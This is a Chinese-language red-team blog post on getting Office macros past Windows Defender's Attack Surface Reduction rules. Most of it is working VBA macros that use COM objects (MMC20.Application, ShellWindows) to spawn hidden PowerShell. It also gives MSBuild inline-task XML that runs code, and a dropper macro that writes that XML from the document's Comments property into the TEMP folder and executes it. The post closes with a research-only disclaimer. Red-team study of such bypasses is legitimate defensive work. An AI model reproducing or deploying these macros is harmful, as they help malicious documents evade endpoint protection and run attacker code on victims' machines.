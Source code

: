 ```yaml
---
title: 红蓝对抗-Office ASR绕过
date: 2022-10-30
categories: [红蓝对抗]
tags: [红蓝对抗, Windows, ASR, Bypass]
---
```


## 0X00 什么是ASR

[Attack Surface Reduction](https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-atp/attack-surface-reduction)(**ASR**)是微软推出一组**Windows defender**强化配置，旨在减缓攻击者常用的攻击技术。**ASR**规则在**LUA**中实现，并由**Windows Defender**执行。它们具体如下：

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/asr.png)

更加详细的细节可以在这个地方查看[https://learn.microsoft.com/zh-cn/microsoft-365/security/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide](https://learn.microsoft.com/zh-cn/microsoft-365/security/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide)(当然也可以点段首的加粗字体跳转)

 这些规则中的许多规则可以组合使用，当然我们可以单独绕过某一规则，但它仍然有可能被另一规则所阻止。本文演示的是在**Office**下的绕过。 

## 0x01 Block Office Processes

这个规则即阻止所有**Office**应用程序创建子进程，这包括**Word**、**Excel**、**PowerPoint**、**OneNote**和**Access**

在我们创建生成宏文档并让他运行**PowerShell** **payload**的时候，一般是下面的代码

```vb
Sub Asr()
    Dim wsh As Object
    Set wsh = CreateObject("WScript.Shell")
    wsh.Run "powershell"
    Set wsh = Nothing
End Sub
```

但是这样容易被**Windows**本身的**defender**发现并把他无情的查杀。

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/defender.png)

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/defender2.png)

## 0x02  COM Bypass

解决这个问题的一种方法是使用**COM**，我们可以直接从**VBA**实例化一个**COM**对象来达到绕过ASR的查杀的目的。因此我们可以考虑利用那些我们知道会导致代码执行的对象。然而并不是每个**COM**对象都可以进行代码执行，只有设置**LocalServer32**，以便进程具有不是**Office**应用程序的父进程才可以。例如，**MMC20.Application**对象会使用**mmc.exe**作为父进程，而**ShellWindows**和**ShellBrowserWindow**的**ShellExecute**方法都将使用**explorer.exe** 作为父进程。
下面是一个使用**MMC20**的方法： 

```vb
Sub Asr()
    Dim mmc As Object
    Set mmc = CreateObject("MMC20.Application")
    mmc.Document.ActiveView.ExecuteShellCommand "powershell", "", "", "7"
    Set mmc = Nothing
End Sub
```

**mmc.exe**会马上关闭，从而生成没有父进程的**PowerShell**

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/ps.png)

下面是使用**ShellWindows**的方法：

```vb
Sub Asr()
    Dim com As Object
    Set com = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
    com.Item.Document.Application.ShellExecute "powershell", "", "", Null, 0
    Set com = Nothing
End Sub
```

与之前的相比，这个会生成一个隐藏的**PowerShell**进程，并且它将会作为**explorer.exe**的子进程运行。就之前的方法来说，这种方法提高了隐蔽性。

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/ps2.png)

## 0x03  LOLBAS

ASR规则实际上是基于某种黑名单的来实现的，我们可以尝试打开一个记事本来验证我们的猜想。

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/notepad.png)

**Windows defender**没有拦截，所以我们上述的想法成立。

因此我们可以大胆猜测这里可能会有使用基于命令行的执行的办法，笔者在这里使用了[LOLBAS项目](https://lolbas-project.github.io/#)，经过简单的测试，发现**[MSBuild](https://lolbas-project.github.io/lolbas/Binaries/Msbuild/)**没有被拦截(其他的可以自行测试)。

[MSBuild](https://lolbas-project.github.io/lolbas/Binaries/Msbuild/)可以从.xml或.csproj文件执行内联C#代码。可以在这里去查看**MSBuild**的结构[https://learn.microsoft.com/zh-cn/visualstudio/msbuild/msbuild-project-file-schema-reference?view=vs-2022](https://learn.microsoft.com/zh-cn/visualstudio/msbuild/msbuild-project-file-schema-reference?view=vs-2022)

我们可以通过以下方法去实现：

```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
<Target Name="MSBuild">
<ASRSucks /> 
</Target> 
<UsingTask
  TaskName="ASRSucks"
  TaskFactory="CodeTaskFactory"
  AssemblyFile="C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
  <Task>
    <Code Type="Class" Language="cs">
    <![CDATA[
      using System;
      using Microsoft.Build.Framework;
      using Microsoft.Build.Utilities;

      public class ASRSucks : Task, ITask
      {         
        public override bool Execute()
        {
            Console.WriteLine("tested by 二两");
            return true;
        } 
      }     
    ]]>
    </Code>
  </Task>
 </UsingTask>
</Project>
```

我们可以通过这种方式去运行

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe test.xml
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/xml.png)

那么接下来就是怎么去利用word宏去执行我们的恶意代码，我们可以将xml提前放在电脑的某个位置(例如temp目录，然后通过宏执行)

```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
<Target Name="MSBuild">
<ASRSucks /> 
</Target> 
<UsingTask
  TaskName="ASRSucks"
  TaskFactory="CodeTaskFactory"
  AssemblyFile="C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
  <Task>
    <Code Type="Class" Language="cs">
    <![CDATA[
      using System.Diagnostics;
      using Microsoft.Build.Framework;
      using Microsoft.Build.Utilities;

      public class ASRSucks : Task, ITask
      {         
        public override bool Execute()
        {
            Process.Start("powershell");
            return true;
        } 
      }     
    ]]>
    </Code>
  </Task>
 </UsingTask>
</Project>
```

```vb
Sub Asr()
    Dim comment As String
    Dim wsh As Object
    Dim temp As String
    Dim command As String
    
    temp = LCase(Environ("TEMP"))
    comment = ActiveDocument.BuiltInDocumentProperties("Comments").Value
    Set wsh = CreateObject("WScript.Shell")
    command = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe " & temp & "\test.xml"
    wsh.Run command
End Sub

```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/ps3.png)

当然，这些代码会一直保持在temp目录下面，我们可以增加一点东西把它删除

```vb
Sub Asr()
    Dim comment As String
    Dim fSo As Object
    Dim dropper As Object
    Dim wsh As Object
    Dim temp As String
    Dim command As String
    
    temp = LCase(Environ("TEMP"))
    
    Set fSo = CreateObject("Scripting.FileSystemObject")
    Set dropper = fSo.CreateTextFile(temp & "\test.xml", True)
    
    comment = ActiveDocument.BuiltInDocumentProperties("Comments").Value
    
    dropper.WriteLine comment
    dropper.Close
    
    Set wsh = CreateObject("WScript.Shell")
    
    command = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe " & temp & "\test.xml"
    
    wsh.Run command
    
    Set fSo = Nothing
    Set dropper = Nothing
    Set wsh = Nothing
End Sub
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/res.png)

## 0x04 小结

本文介绍了在ASR规则下，Office在执行宏中的绕过。当然以上有些方法在不同版本的Windows中处理生成也会有所不同，具体的不同可以去自行测试。

### 注：本文仅用于安全研究和学习之用